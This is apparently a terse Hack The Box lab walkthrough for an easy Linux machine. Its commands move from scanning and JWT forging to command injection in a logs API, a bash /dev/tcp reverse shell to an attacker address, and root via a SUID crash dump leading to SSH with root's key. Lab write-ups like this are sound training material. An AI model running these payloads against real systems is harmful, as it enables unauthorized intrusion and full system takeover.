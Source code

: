 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)


---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.120
nmap -p 22,80,3000 -sCV -oA scans/nmap-tcpscripts 10.10.11.120
```
```bash
curl http://10.10.11.120
curl http://10.10.11.120/download/files.zip
```

## 🕵️ JWT Registration & Login
```bash
curl -d '{"name":"0xdf0xdf","email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/register -H 'Content-Type: Application/json'
```
```bash
curl -d '{"email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/login -H 'Content-Type: Application/json'
```

## 📁 [Directory Discovery](HTTP)
```bash
feroxbuster -u http://10.10.11.120
```

## 🔐 JWT Analysis
```python
import jwt
token = '...'
secret = '...'
jwt.decode(token, secret)
```

## 🧪 JWT Forging
```python
j = jwt.decode(token, secret)
j['name'] = 'theadmin'
jwt.encode(j, secret)
```

## 🚨 Command Injection Test
```bash
curl -s 'http://10.10.11.120/api/logs?file=;id' -H "auth-token: <ADMIN_JWT_TOKEN>" | jq -r .
```

## ⚙️ Gaining Reverse Shell
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" \
-H "auth-token: <ADMIN_JWT_TOKEN>" | jq -r .
```
```bash
nc -lnvp 443
```

## 🔼 Shell Upgrade
```bash
script /dev/null -c bash
[CTRL+Z]
stty raw -echo; fg
reset
screen
```

## 📄 Privilege Escalation via SUID FD Leak
```bash
./count
[CTRL+Z]
ls -l /proc/$(pidof count)/fd
```

## 💥 Exploiting Crash Dump
```bash
./count
[CTRL+Z]
kill -SIGSEGV $(pidof count)
apport-unpack _opt_count.1000.crash /tmp/0xdf
strings -n 30 /tmp/0xdf/CoreDump | less
```

## 🔑 [SSH](SSH) as Root
```bash
ssh -i root_id_rsa root@10.10.11.120
```